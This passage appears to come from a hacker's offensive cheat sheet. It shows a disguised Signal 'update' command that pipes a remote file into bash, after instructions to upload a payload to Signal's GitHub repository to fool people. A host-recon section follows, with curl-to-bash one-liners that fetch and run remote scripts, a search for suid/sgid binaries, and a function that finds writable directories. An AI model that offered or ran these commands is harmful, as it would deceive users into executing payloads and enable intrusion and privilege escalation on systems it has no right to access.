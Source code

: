 2. Rename `egg.sh` to `update-for-fools.txt` and upload as blob to [Signal's](https://www.signal.org/) GitHub repository.

3. Don't fool people to update Signal using this command ❤️:
```sh
curl -fL https://github.com/signalapp/Signal-Desktop/files/15037868/update-for-fools.txt | bash
```

<a id="hostrecon"></a>
## 7. Host Recon
---

Get [essential information](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet/blob/master/tools/whatserver.sh) about a host:
```sh
bash -c "$(curl -fsSL https://thc.org/ws)"
```
or
```sh
bash -c "$(curl -fsSL https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet/raw/master/tools/whatserver.sh)"
```

netstat if there is no netstat/ss/lsof:
```sh
curl -fsSL https://raw.githubusercontent.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet/master/tools/awk_netstat.sh | bash
```

Speed check the system
```sh
curl -fsSL https://bench.sh | bash
# Another speed check:  
# curl -fsSL https://yabs.sh | bash
```

Find all suid/sgid binaries:
```
find  / -xdev -type f -perm /6000  -ls 2>/dev/null
```

Find all writeable directories:
```bash
wfind() {
    local arr dir

    arr=("$@")
    while [[ ${#arr[@]} -gt 0 ]]; do
        dir=${arr[${#arr[@]}-1]}
        unset "arr[${#arr[@]}-1]"
        find "$dir"  -maxdepth 1 -type d -writable -ls 2>/dev/null
        IFS=$'\n' arr+=($(find "$dir" -mindepth 1 -maxdepth 1 -type d ! -writable 2>/dev/null))
    done
}
# Usage: wfind /
# Usage: wfind /etc /var /usr 
```
